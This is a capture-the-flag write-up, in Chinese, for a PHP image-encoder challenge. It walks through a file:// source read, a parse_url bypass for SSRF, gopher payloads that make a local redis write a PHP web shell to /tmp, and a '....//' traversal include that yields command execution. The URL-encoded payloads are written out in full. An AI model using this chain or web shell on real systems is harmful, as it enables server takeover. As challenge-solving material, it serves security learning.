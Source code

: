 # 陸拾肆基底編碼之遠端圖像編碼器
## 1. file protocol
利用 `file:///path/to/file` 取得 source code, 觀察後發現後端是用 php curl 來訪問我們給予的 url, 其中有一些 rules 如不能訪問 local ip 等等.

## 2. bypass rule
試過幾種方法, 如 `http://127.0.0.1;google.com/` 等等希望能讓 php 混淆, 似乎沒什麼用 QQ. 最後用 `http:///` 來 bypass `parse_url()` 的 rule, 成功存取內網服務, 進行 `SSRF` 攻擊.

不過要存取哪裡呢? 利用第一步的任意存取, 首先可以透過查看 `/proc/net/tcp` 或是 `/proc/net/tcp6` 看有在使用的 port:
```
sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode                                                     
0: 00000000:0050 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 8359666 2 0000000084ee9dc6 99 0 0 10 0                    
1: 0B00007F:9ADD 00000000:0000 0A 00000000:00000000 00:00000000 00000000     0        0 8423762 1 00000000c65df704 99 0 0 10 0                    
2: 0100007F:69FE 00000000:0000 0A 00000000:00000000 00:00000000 00000000   101        0 8459689 1 00000000c15a58ad 99 0 0 10 0                    
3: 0100007F:69FE 0100007F:B3AC 01 00000000:00000000 02:00001D6B 00000000   101        0 11282666 2 00000000c563cddd 20 3 0 10 -1                  
4: 0100007F:B642 0100007F:69FE 01 00000000:00000000 00:00000000 00000000    33        0 11313066 1 00000000b994934d 20 3 0 10 -1                  
5: 0100007F:D6D8 0100007F:69FE 01 00000000:00000000 00:00000000 00000000    33        0 11413407 1 00000000e5a22dc6 20 3 16 10 -1                 
6: 020014AC:0050 40D0738C:3732 03 00000000:00000000 01:00000063 00000000     0        0 0 0 00000000          
... 略
```
值得注意的是 020014AC:0050 = 172.20.0.2:80, 也就是對外的 web server; 並且有一個 0100007F:69FE = 127.0.0.1:27134, 建立了非常多連線, 可以猜測為某個常駐的服務

然而查看 `/etc/passwd` 或是 `/etc/group`, 都能發現有個 redis user/group, 可以猜測那個常駐的服務即為 redis, 於是送一個 ping 過去:
`gopher:///127.0.0.1:27134/_ping%0D%0AQuit%0D%0A`, 回了一個 base64 string, 解密後為 `+PONG\r\n+OK`, 猜測正確.

## 3. 寫檔
利用 redis 可以將當前資料儲存成 db 的特性, 將 php code 寫入變數. 原本想儲存在 `/var/www/html` 下面, 不過沒寫的權限 (應該也是蠻正常的XD). 最後儲存在 `/tmp`, 檔名為 `qqqq.inc.php`.

能透過 url=`file:///tmp/qqqq.inc.php` 來確定是否有被寫入. 而為什麼是 `.inc.php` 呢, 待會第四點會說明.

### redis-cli command
```
bgsave
config set stop-writes-on-bgsave-error no
set 1 "<?php system($_GET[a]);?>"
config set dir /tmp
config set dbfilename qqqq.inc.php
quit

```
- 加 `bgsave` 是希望能用非同步的方式儲存, 不阻塞 main process. 此時會直接 fork 出一個 process
- 加 `stop-writes-on-bgsave-error no` 是因為不希望 redis 因為 error 出現, 就停止寫檔

### gopher payload
```
gopher:///127.0.0.1:27134/_bgsave%0D%0Aconfig%20set%20stop-writes-on-bgsave-error%20no%0D%0Aset%201%20%22%3C%3Fphp%20system%28%24_GET%5Ba%5D%29%3B%3F%3E%22%0D%0Aconfig%20set%20dir%20%2Ftmp%0D%0Aconfig%20set%20dbfilename%20qqqqq.inc.php%0D%0Aquit%0D%0A
```

## 4. 讀檔
回到剛剛的 web page, 可以發現一開始轉換的 page `http://base64image.splitline.tw:8894/?page=result` 有個參數叫 `page`, 將 `result` 任意更動後會噴出一些 error msg. 經過觀察 + 看原始碼, 可以知道他其實是會 filter `'../'`, 最後將 value 加上副檔名 `.inc.php` 把檔案 include 近來.

我們可以用 `....//` 來 **bypass previous dir include**, 可以用 redis 任意寫檔在可以寫的目錄 e.g. `/tmp` 寫 php file, 並 include 他. 由於 php 會自動 append `.inc.php` 在檔案後面, 所以當初在存 redis 的 dumpfile 時需要取 `.inc.php` 結尾的. 

`http://base64image.splitline.tw:8894/?page=....//....//....//....//tmp/qqqq&a=cat /flag*`

最後透過 `SSRF`, 成功 RCE.
![](2-1.png)

## 5. reproduce
重現時發現如果送給 redis 的 payload 中若設定 bgsave, 似乎不會成功儲存 db file, 因此在此附上沒有 bgsave 的解法

### redis-cli command
```
set 1 "<?php system($_GET[a]);?>"
config set dir /tmp
config set dbfilename qqqqq.inc.php
quit
```

### gopher payload
```
gopher:///127.0.0.1:27134/_set%201%20%22%3C%3Fphp%20system%28%24_GET%5Ba%5D%29%3B%3F%3E%22%0D%0Aconfig%20set%20dir%20%2Ftmp%0D%0Aconfig%20set%20dbfilename%20qqqqq.inc.php%0D%0Aquit%0D%0A
```

`http://base64image.splitline.tw:8894/?page=....//....//....//....//tmp/qqqqq&a=ls%20-al`